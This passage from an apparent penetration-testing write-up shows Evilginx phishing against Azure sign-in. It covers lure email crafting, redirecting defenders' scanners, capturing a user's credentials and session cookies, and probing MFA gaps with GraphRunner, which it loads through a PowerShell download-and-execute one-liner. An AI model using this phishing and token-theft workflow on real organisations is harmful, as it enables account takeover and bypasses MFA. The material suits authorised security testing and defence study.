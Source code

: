 ![](bypass-azure-mfa-with-evilginx-6.png)


For other requests to our Evilginx server that don't contain a lure path, let's assume that they are scanners (or the blue team). Thus redirect these "unauthenticated" requests to a different URL. 

![](bypass-azure-mfa-with-evilginx-7.png)

Evilginx also enables and updates a blocklist by default. The IP addresses associated with any requests that don't contain a valid lure URL will automatically be added to the blocklist.

Visiting the phishing site https://login.aka-portal-azure.com/ in the browser shows Microsoft Online sign-in page.

![](bypass-azure-mfa-with-evilginx-8.png)

Craft an email with a lure and pretext

![](bypass-azure-mfa-with-evilginx-9.png)

After sending the email, Edrian clicked on the link and entered his username and password, and possibly also the MFA token if this is configured!

![](bypass-azure-mfa-with-evilginx-10.png)

`sessions 1` shows captured cookies for the login session. However, on logging into the Azure Portal using the credentials, we're prompted for an MFA token. This is because Microsoft has advanced detection capabilities and the free community version of EvilGinx is easily detected. If you have the Pro version of Evilginx you would now be able to use the cookies and access the Azure portal.

> The Pro version of Evilginx has more advanced evasion capabilities that could allow it to capture login sessions without being detected. However, this is a familiar cat and mouse game with new detections being met with evasion techniques, followed by more detections and evasion techniques.
{: .prompt-info }

What Microsoft do when they detect Evilginx is automatically trigger a reauthentication for the user, if they detect that a login seems malicious, therby invalidating the existing token and the provided MFA code. As the token is automatically invalided, we are prompted for an MFA code even though we know the user's username and password. Other sites may have less advanced detection capabilties.

Instead, let's hunt for MFA enablement gaps. It's common for gaps in MFA defenses to exist, and we can probe them using [GraphRunner](https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1). `GraphRunner` allows us to explore the user-centric Microsoft Graph API.
```
└─PS> IEX (iwr 'https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1')
                                                                                                                        
  ________                     __      _______      by Beau Bullock (@dafthack)                                
 /_______/___________  ______ |  |____/_______\__ __  ____   ____   ___________ 
/___\  __\______\____\ \_____\|__|__\|________/__|__\/____\ /____\_/____\______\
\    \_\  \  | \// __ \|  |_/ |   Y  \    |   \  |  /   |  \   |  \  ___/|  | \/
 \________/__|  (______/__|   |___|__|____|___/____/|___|__/___|__/\___| >__|   
                 Do service principals dream of electric sheep?
                       
For usage information see the wiki here: https://github.com/dafthack/GraphRunner/wiki
To list GraphRunner modules run List-GraphRunnerModules

```
`GraphRunner` has `-Device` parameter that allows us to emulate other devices when requesting tokens. In this case we can make it to be an Android mobile device logging into Azure using the default Android browser.
```
└─PS> Get-GraphTokens -Device AndroidMobile -Browser Android
To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code N2AUL4D9W to authenticate.
authorization_pending
<SNIP>
```